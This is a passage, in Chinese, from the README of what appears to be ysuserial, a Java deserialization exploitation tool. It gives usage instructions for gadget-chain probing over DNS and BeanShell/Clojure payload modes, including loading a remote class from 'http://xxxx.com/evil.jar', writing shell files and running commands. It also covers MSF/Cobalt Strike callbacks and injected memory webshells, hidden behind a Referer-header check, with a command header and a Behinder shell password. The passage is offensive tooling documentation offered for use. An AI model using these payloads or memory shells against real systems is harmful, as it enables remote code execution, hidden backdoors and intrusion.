 因此这里还是提供了 all/common/指定类 三种探测方式：

- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar ysuserial-<version>-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

效果图：

![image-20220618211017835](images/image-20220618211017835.png)

## 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。

本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`

与之前的扩展类似，这里也不放截图了。

对于 BeanShell1，还通过 ScriptEngineManager 执行 JS 的方式支持回显或内存马的打入。使用方式同上：`EX-`

## MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

**示例**：

![image-20220619234324295](images/image-20220619234324295.png)

# 内存马的使用

针对项目中一键打入的各种内存马，这里提供了通用的利用方式。

## 命令执行及后门类

对于植入的内存马及恶意逻辑，首先为了隐藏内存马，通过逻辑进行了判断，需要在请求 Header 中添加 `Referer: https://su18.org/ `，其次执行不同的逻辑：
这个校验的 header 头部和值可以通过 `-hk "Referer" -hv "https://su18.org/"` 来进行自定义指定。

1. 如果是 <font color="orange">CMD</font> 内存马，程序会从 `X-Token-Data` 中读取待执行的命令，并将执行结果进行回显，这个头部可以通过 `-ch "testecho"` 来指定。
   ![image-20220618232343999](images/image-20220618232343999.png)

2. 如果是 <font color="orange">冰蝎 Shell</font> 内存马，可使用冰蝎客户端进行连接管理，密码 `p@ssw0rd`, 可以通过 `-pw "1qaz@WSX"` 来指定。
